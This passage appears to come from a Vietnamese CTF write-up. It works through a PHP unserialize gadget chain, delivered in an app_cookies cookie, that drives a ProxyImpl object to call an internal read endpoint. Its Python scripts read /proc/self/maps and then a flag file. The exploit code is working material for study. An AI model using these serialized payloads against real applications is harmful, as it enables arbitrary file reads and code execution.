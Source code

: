 Phân tích : 

* Ta cần eval đoạn cmd_to_run mà ta đã thực hiện trước đó
* Với h = "63060d997000" là phần đầu heap mình cần đọc để cắt ra cmd_to_run mà ta đã lấy trước đó

Chúng ta có thể sử dụng đoạn sau để serialization và đọc file /proc/self/maps

```python
import requests
import base64

file = "/proc/self/maps"

cmd = 'O:9:"ProxyImpl":4:{s:14:"\x00ProxyImpl\x00url";s:35:"http://back-end:3000/internal/read?";s:17:"\x00ProxyImpl\x00method";s:4:"POST";s:18:"\x00ProxyImpl\x00headers";a:0:{}s:15:"\x00ProxyImpl\x00data";a:1:{s:4:"file";s:'+str(len(file))+':"'+file+'";}}'

cmd = cmd.encode()

cookie = {'app_cookies':'[{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6NjoiZGVmaW5lIjtzOjI1OiIAVXRpbHMAX2NsZWFudXBfZnVuY19hcmdzIjthOjI6e2k6MDtzOjE4OiJJTlRFUk5BTF9JTkNMVURJTkciO2k6MTtiOjE7fXM6MjQ6InNob3VsZF9nYXJiYWdlX29uY2VfZG9uZSI7aToxO30="},{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6MTg6IlxVdGlsczo6cGFnaW5hdGlvbiI7czoyNToiAFV0aWxzAF9jbGVhbnVwX2Z1bmNfYXJncyI7YToxOntpOjA7czo5OiJQcm94eUltcGwiO31zOjI0OiJzaG91bGRfZ2FyYmFnZV9vbmNlX2RvbmUiO2k6MTt9"},{"expire_time":1,"data":"'+base64.b64encode(cmd).decode()+'"}]'}

x = requests.get("http://4.216.196.42:1337/", cookies=cookie)
print(x.text)
```

![image](./images/image10.png)


* offset sẽ chạy từ 470000 đến 530000 với mỗi offset sẽ đọc len(cmd_to_run) kí tự, nếu lệnh đó được thực thi thì chắc chắn đó là cmd_to_run mà ta truyền vào

* Khi lệnh được thực thi thì ở thư mục home chúng ta có một file b chứa flag

Nhiệm vụ của ta chỉ là đọc nó bằng internal/read thui

```python
import requests
import base64

file = "/home/shin24/b"

cmd = 'O:9:"ProxyImpl":4:{s:14:"\x00ProxyImpl\x00url";s:35:"http://back-end:3000/internal/read?";s:17:"\x00ProxyImpl\x00method";s:4:"POST";s:18:"\x00ProxyImpl\x00headers";a:0:{}s:15:"\x00ProxyImpl\x00data";a:1:{s:4:"file";s:'+str(len(file))+':"'+file+'";}}'

cmd = cmd.encode()

cookie = {'app_cookies':'[{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6NjoiZGVmaW5lIjtzOjI1OiIAVXRpbHMAX2NsZWFudXBfZnVuY19hcmdzIjthOjI6e2k6MDtzOjE4OiJJTlRFUk5BTF9JTkNMVURJTkciO2k6MTtiOjE7fXM6MjQ6InNob3VsZF9nYXJiYWdlX29uY2VfZG9uZSI7aToxO30="},{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6MTg6IlxVdGlsczo6cGFnaW5hdGlvbiI7czoyNToiAFV0aWxzAF9jbGVhbnVwX2Z1bmNfYXJncyI7YToxOntpOjA7czo5OiJQcm94eUltcGwiO31zOjI0OiJzaG91bGRfZ2FyYmFnZV9vbmNlX2RvbmUiO2k6MTt9"},{"expire_time":1,"data":"'+base64.b64encode(cmd).decode()+'"}]'}
```